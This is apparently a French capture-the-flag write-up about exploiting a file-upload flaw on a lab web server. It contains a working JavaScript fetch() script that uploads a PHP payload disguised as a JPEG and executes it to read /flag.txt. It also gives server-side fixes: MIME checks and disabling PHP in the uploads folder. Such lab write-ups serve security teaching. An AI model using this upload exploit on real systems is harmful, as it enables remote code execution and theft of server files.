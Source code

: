 ### ✅ **Flag trouvé : `46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`**

---

# Exploitation de la faille d'Upload de Fichier

## 1. Introduction
J'ai exploité une faille de sécurité liée à l'upload de fichiers sur la page **Upload**. Cette faille permettait de **contourner les restrictions** sur les types de fichiers acceptés en faisant passer un fichier **PHP malveillant** pour une **image JPEG**. J'ai ainsi pu exécuter du code sur le serveur et obtenir le **flag**.

---

## 2. Découverte de la faille
En accédant à la page :
```
http://10.211.55.2/index.php?page=upload
```
J'ai remarqué que le formulaire d'upload acceptait les fichiers en vérifiant uniquement leur extension (`.jpg`, `.png`, etc.) sans vérifier le contenu réel du fichier.


---

## 3. Exploitation de la faille
### **Objectif :**
Uploader un fichier **PHP** malveillant pour l'exécuter sur le serveur.

### **Méthode utilisée :**
J'ai utilisé la **console du navigateur** pour injecter un fichier **PHP** en tant que **faux fichier JPEG** grâce à un script `fetch()`.

---

## 4. Script utilisé

```js
async function uploadPHP() {
    const url = "http://10.211.55.2/index.php?page=upload";

    // Création du faux fichier image en PHP
    const phpPayload = "<?php echo 'Flag: ' . file_get_contents('/flag.txt'); ?>";
    const blob = new Blob([phpPayload], { type: "image/jpeg" });
    const formData = new FormData();
    formData.append("uploaded", blob, "test.php");
    formData.append("Upload", "Upload");

    try {
        const response = await fetch(url, {
            method: "POST",
            body: formData
        });

        const text = await response.text();
        console.log("Réponse du serveur :", text);

        // Vérification d'une potentielle URL pour exécuter le fichier PHP uploadé
        const match = text.match(/href="(uploads\/[^\"]+\.php)"/);
        if (match) {
            const uploadedUrl = "http://10.211.55.2/" + match[1];
            console.log("URL du fichier uploadé :", uploadedUrl);

            // Exécution du fichier PHP pour obtenir le flag
            const result = await fetch(uploadedUrl);
            const resultText = await result.text();
            console.log("Résultat du fichier PHP :", resultText);
        } else {
            console.log("Aucun fichier PHP détecté dans la réponse.");
        }
    } catch (error) {
        console.error("Erreur lors de l'upload :", error);
    }
}

uploadPHP();
```

---

## 5. Explication du Script

1. **Création du Faux Fichier** :
    - Utilisation d'un **Blob** contenant du **PHP** avec un type **image/jpeg** pour contourner la vérification côté client.

2. **Injection via FormData** :
    - Le fichier est injecté dans un **FormData** comme s'il s'agissait d'une image.

3. **Envoi avec fetch()** :
    - La requête **POST** est envoyée pour **uploader** le fichier.

4. **Analyse de la réponse** :
    - Le script **recherche un lien** vers le fichier uploadé pour tenter de l'exécuter.

5. **Exécution du fichier PHP** :
    - Si le fichier PHP est trouvé, il est exécuté pour obtenir le **flag**.

---

## 6. Résultat
Le fichier PHP a été uploadé et exécuté avec succès, affichant le **flag** :

```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

### **Capture d'écran du Flag :**
![Flag](images/1.png)

---

## 7. Impact de la faille
Cette faille permet à un attaquant de :
- **Exécuter du code arbitraire** sur le serveur.
- **Accéder à des fichiers sensibles** comme `/flag.txt`.
- **Prendre le contrôle du serveur** en uploadant un shell PHP.

---

## 8. Prévention de la faille
Pour éviter cette vulnérabilité :
- **Vérifier le type MIME côté serveur** :
    ```php
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $mimeType = finfo_file($finfo, $_FILES['uploaded']['tmp_name']);
    if ($mimeType !== 'image/jpeg' && $mimeType !== 'image/png') {
        die("Type de fichier non autorisé.");
    }
    ```
- **Limiter les extensions de fichier** (`.jpg`, `.png`) et **changer leur nom**.
- **Désactiver l'exécution de PHP** dans le dossier d'uploads :
    ```apache
    <Directory "/var/www/html/uploads">
        php_admin_flag engine off
    </Directory>
    ```

---

## 9. Correction de la faille
Pour corriger cette faille :
- **Utiliser des vérifications côté serveur**.
- **Désactiver les scripts exécutables dans le dossier d'uploads** via `.htaccess` :
    ```apache
    <FilesMatch "\.(php|pl|py|cgi)$">
        Deny from all
    </FilesMatch>
    ```

---

